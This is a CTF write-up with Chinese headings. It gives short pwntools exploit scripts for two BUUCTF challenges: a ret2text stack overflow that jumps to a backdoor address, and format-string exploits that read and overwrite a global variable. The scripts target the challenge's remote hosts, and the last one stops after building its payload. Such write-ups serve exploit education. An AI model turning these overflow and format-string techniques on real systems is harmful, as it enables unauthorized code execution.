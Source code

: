 ## jarvisoj_level0
### 思路
ret2text

### exp
```python
from pwn import *

p = remote('node5.buuoj.cn',28636)

backdoor = 0x400596
payload = b'a'*(128+0x8)+p64(backdoor)
p.sendline(payload)

p.interactive()
```

## [第五空间2019 决赛]PWN5
### 思路
格式化字符串漏洞，有两种思路
1. 利用格式化字符串漏洞读取全局变量的值
2. 利用格式化字符串漏洞覆盖全局变量的值

### exp
#### 读
```python
from pwn import *

p = process("./pwn")
#p = remote("node5.buuoj.cn",27945)

bss_addr = 0x804c044

payload = p32(bss_addr)+b'%10$s'
p.sendline(payload)

p.recvuntil(b"Hello,")
num = u32(p.recv()[4:8])

#info(num)

p.sendline(str(num).encode())

p.interactive()

```

#### 写
```python
from pwn import *

context.log_level="debug"

#p = process("./pwn")
p = remote("node5.buuoj.cn",27945)

bss_addr = 0x804c044

payload = p32(bss_addr)+p32(bss_addr+1)+p32(bss_addr+2)+p32(bss_addr+3)+b'%10$n'+b'%11$n'+b'%12$n'+b'%13$n'

```